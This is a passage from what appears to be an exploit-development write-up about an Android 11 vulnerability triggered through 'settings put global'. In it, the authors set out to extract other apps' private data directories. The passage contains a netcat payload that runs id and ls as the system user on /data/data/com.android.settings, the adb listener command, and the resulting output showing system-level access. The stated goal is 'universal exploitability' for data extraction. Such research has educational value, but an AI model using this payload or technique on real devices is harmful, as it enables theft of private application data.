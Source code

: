 And the phone? Fine, thanks. It just _lags_ a bit at the start, but then it keeps working normally.

---

So far, we have tested that the vulnerability exists on Android 11, managed to execute a bash command and see its output, and ensured the phone did not become unusable after the exploitation.

But, as we said at the beginning, our idea is to go further, making the exploit do something "real" and achieve "universal exploitability." This is an important step, but it’s just the beginning.

## -[ 0x06 Define the target. ]-
As we saw before, exploiting this vulnerability could allow two fundamental actions: implant malware or extract information.

We decided our exploit will do the second: extract information from the indicated application. For example, if asked to extract `com.android.chrome`, the exploit will extract the entire directory of that application.

### Taking control

To start thinking about how to extract information efficiently, let's explore a bit more what we can do with the _payload_ we already have.

In the previous section, we saw that LLeaveseg's original _payload_ has a command that redirects the output to a connection with _netcat_ (`nc`). We modified it so that _netcat_ connects to _localhost_ (127.0.0.1) on port 31337:

```bash
echo "$(id; cd /data/data/com.android.settings ; pwd; ls -al)" | nc 127.0.0.1 31337 ; #
```

We can modify our _payload_ (in our case `payload_1.txt`) and upload it again to the emulator.

Before executing the command that triggers the vulnerability (`settings put global ...`), we must put another instance of _netcat_ listening for connections on port 31337. We can do this **outside** the `adb` shell, by running the following command from a terminal on **our** computer:


```bash
adb shell nc -l -p 31337
```

Then, from the `adb` shell, we run the command that triggers the vulnerability, reset the variable to `null`, and see what happens in the terminal where _netcat_ is listening:

```bash
$ adb shell nc -l -p 31337  
uid=1000(system) gid=1000(system) groups=1000(system) context=u:r:system_app:s0
/data/data/com.android.settings
total 44
drwx------   4 system system  4096 2025-04-15 19:24 .
drwxrwx--x 203 system system 12288 2025-04-15 19:24 ..
drwxrws--x   2 system system  4096 2025-04-15 19:24 cache
drwxrws--x   2 system system  4096 2025-04-15 19:24 code_cache
lrwxrwxrwx   1 root   root      37 2025-04-15 19:24 lib -> /system_ext/priv-app/Settings/lib/x86
$
```
